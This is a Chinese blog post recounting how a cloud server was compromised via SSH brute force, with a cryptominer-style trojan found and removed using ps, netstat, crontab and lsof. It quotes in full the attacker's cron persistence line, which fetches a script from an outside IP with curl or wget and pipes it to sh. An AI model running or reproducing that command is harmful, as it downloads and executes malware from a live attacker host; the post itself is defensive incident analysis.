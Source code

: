 ```yaml
---
title: ECS遭遇安全攻击的一次经历
date: 2019-05-04 20:11:03
tags:
---
```


突然，腾讯云发出安全提示信息，先是SSH暴力破解的警告，过了几天又是ECS被植入木马的警告，Linux的安全防护被提上日程了！

## 服务器的问题表现

{% asset_img alert-0.png 腾讯云的警告信息汇总%}

- 登录ECS服务器，用`top`命令检查系统状态，发现CPU负荷长期维持100%，系统响应缓慢，其中`/tmp/vThHH`严重消耗资源，确认中招了！

{% asset_img alert-1.png SSH暴力破解的警告信息%}

- 服务器的root口令没有变化，但登录成功时提示有几百个`failed login attempts`，说明SSH口令已经被暴力破解

## 系统检查的主要工作

主要从以下几个方面入手：

1. 检查网络服务

    使用`netstat -nlp`，发现除了22，80，443端口，还对外暴露了可疑的7946端口，调用者是`/tmp/vThHH`。

2. 检查系统进程

    通过`ps -ef`命令，跟踪可疑进程`/tmp/vThHH`，发现父进程就是木马程序`/usr/bin/ybznfa2`。
    进一步检查，发现了木马的加载进程。

    ``` bash
    root      4365   736  0 18:30 ?        00:00:00 /usr/sbin/CROND -n
    root      4366  4365  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
    root      4367  4366  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) |sh
    ```

3. 检查cron任务

    该木马由crond启动，通过`crontab -u root -l`检查定时任务，发现每15分钟就执行一次上述bash脚本，这就是木马的埋点！

    ``` bash
    */15 * * * * (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -fsSL -m180 http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
    ```

## 该木马的工作原理

- 通过网络爬虫等手段收集服务器域名信息
- 以服务器默认的root用户，通过ssh暴力破解获得口令
- 通过ssh登录，添加cron定时任务，从远端服务器下载木马程序，并存放在多个目录下
- 后台启动木马，打开自定义端口进行远程控制

## 处理措施

- 手工清理cron的任务清单
- 手工杀死`/tmp/vThHH`，`/usr/bin/ybznfa2`等可疑进程
- 手工删除上述木马程序
- 检查系统进程、网络服务、定时任务等状态，确认问题解决

## 如何彻底解决SSH暴力破解的威胁

最有效的方法就是，关闭口令登录方式，改为密钥登录，请参见下一片文章。

***应该说，腾讯云提供的安全服务还是比较有效的，赞一个！***

---

## 附录1: 关于lsof命令

查看被占用端口的归属进程，可用使用`lsof -i:<port>`命令。

``` bash
[root@VM_0_17_centos log]# lsof -i:80
COMMAND PID  USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nginx   936  root    6u  IPv4  15296      0t0  TCP *:http (LISTEN)
nginx   937 nginx    6u  IPv4  15296      0t0  TCP *:http (LISTEN)
```

查看某个进程使用的系统资源信息，包括文件、端口等，可以使用`lsof -p <pid>` 命令。

``` bash
[root@VM_0_17_centos log]# lsof -p 527
COMMAND   PID USER   FD      TYPE             DEVICE SIZE/OFF   NODE NAME
YDService 527 root  cwd       DIR              253,1     4096 525988 /usr/local/qcloud/YunJing/YDEyes
YDService 527 root  rtd       DIR              253,1     4096      2 /
YDService 527 root  txt       REG              253,1  5194952 525989 /usr/local/qcloud/YunJing/YDEyes/YDService
YDService 527 root  mem       REG              253,1    68192 266804 /usr/lib64/libbz2.so.1.0.6
YDService 527 root  mem       REG              253,1   157424 266780 /usr/lib64/liblzma.so.5.2.2
YDService 527 root  mem       REG              253,1    90248 265916 /usr/lib64/libz.so.1.2.7
YDService 527 root  mem       REG              253,1    99944 266803 /usr/lib64/libelf-0.170.so
YDService 527 root  mem       REG              253,1    19896 266044 /usr/lib64/libattr.so.1.1.0
YDService 527 root  mem       REG              253,1   297360 274746 /usr/lib64/libdw-0.170.so
YDService 527 root  mem       REG              253,1    20032 266047 /usr/lib64/libcap.so.2.22
YDService 527 root  mem       REG              253,1    86544 274509 /usr/lib64/libnss_myhostname.so.2
YDService 527 root  mem       REG              253,1   106848 265653 /usr/lib64/libresolv-2.17.so
YDService 527 root  mem       REG              253,1    31824 265641 /usr/lib64/libnss_dns-2.17.so
YDService 527 root  mem       REG              253,1    62184 265643 /usr/lib64/libnss_files-2.17.so
YDService 527 root  mem       REG              253,1  2173512 265625 /usr/lib64/libc-2.17.so
YDService 527 root  mem       REG              253,1    88720 262170 /usr/lib64/libgcc_s-4.8.5-20150702.so.1
YDService 527 root  mem       REG              253,1  1139680 265633 /usr/lib64/libm-2.17.so
YDService 527 root  mem       REG              253,1   995840 265950 /usr/lib64/libstdc++.so.6.0.19
YDService 527 root  mem       REG              253,1    19776 265631 /usr/lib64/libdl-2.17.so
YDService 527 root  mem       REG              253,1   144792 265651 /usr/lib64/libpthread-2.17.so
YDService 527 root  mem       REG              253,1    44448 265655 /usr/lib64/librt-2.17.so
YDService 527 root  mem       REG              253,1   164240 265618 /usr/lib64/ld-2.17.so
YDService 527 root    0w      REG              253,1   227581 525140 /usr/local/qcloud/YunJing/log/ydservice.20190505.log
YDService 527 root    1u      CHR                1,3      0t0   5078 /dev/null
YDService 527 root    2u  a_inode               0,10        0   5074 [eventpoll]
YDService 527 root    3uW     REG               0,19        3  13104 /run/YDService.pid
YDService 527 root    4u     IPv4              17010      0t0    TCP VM_0_17_centos:45598->169.254.0.55:lsi-bobcat (ESTABLISHED)
YDService 527 root    5u     unix 0xffff8da7babcec00      0t0  17082 /usr/local/yd.socket.server
YDService 527 root    6u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root    7r  a_inode               0,10        0   5074 inotify
YDService 527 root    8u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root    9u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   10u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   11u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   24u     unix 0xffff8da7bb51fc00      0t0  17639 /usr/local/yd.socket.server
```

## 附录2：关于crontab命令

- crond是常用的木马启动入口，主要的配置文件存放在 `/var/spool/cron/`目录下。

``` bash
[root@VM_0_17_centos etc]# ls -l /var/spool/cron
总用量 4
drwxr-xr-x 2 root root 4096 4月  18 20:58 crontabs
-rw------- 1 root root    0 5月   5 11:10 root
```

- 也可能存放在`/etc/cron.d/`等类似目录下。

``` bash
[root@VM_0_17_centos etc]# ls -lF /etc |grep cron
-rw-------.  1 root root      541 4月  11 2018 anacrontab
drwxr-xr-x.  2 root root     4096 4月  30 16:47 cron.d/
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.daily/
-rw-------.  1 root root        0 4月  11 2018 cron.deny
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.hourly/
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.monthly/
-rw-r--r--.  1 root root      451 6月  10 2014 crontab
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.weekly/
```

- cron的运行日志保存在`/var/log/cron`文件中，内容格式为

``` bash
[root@VM_0_17_centos log]# head /var/log/cron

Dec 21 09:11:35 VM_0_17_centos crontab[1627]: (root) LIST (root)
Dec 21 09:11:35 VM_0_17_centos crontab[1626]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1698]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1702]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1701]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1728]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1730]: (root) REPLACE (root)
Dec 21 09:12:02 VM_0_17_centos CROND[1811]: (root) CMD (/usr/local/qcloud/stargate/admin/start.sh > /dev/null 2>&1 &)
Dec 21 09:12:32 VM_0_17_centos crond[739]: (CRON) INFO (Shutting down)
```

- [crontab配置方法的参考文档](http://www.cnblogs.com/longjshz/p/5779215.html)
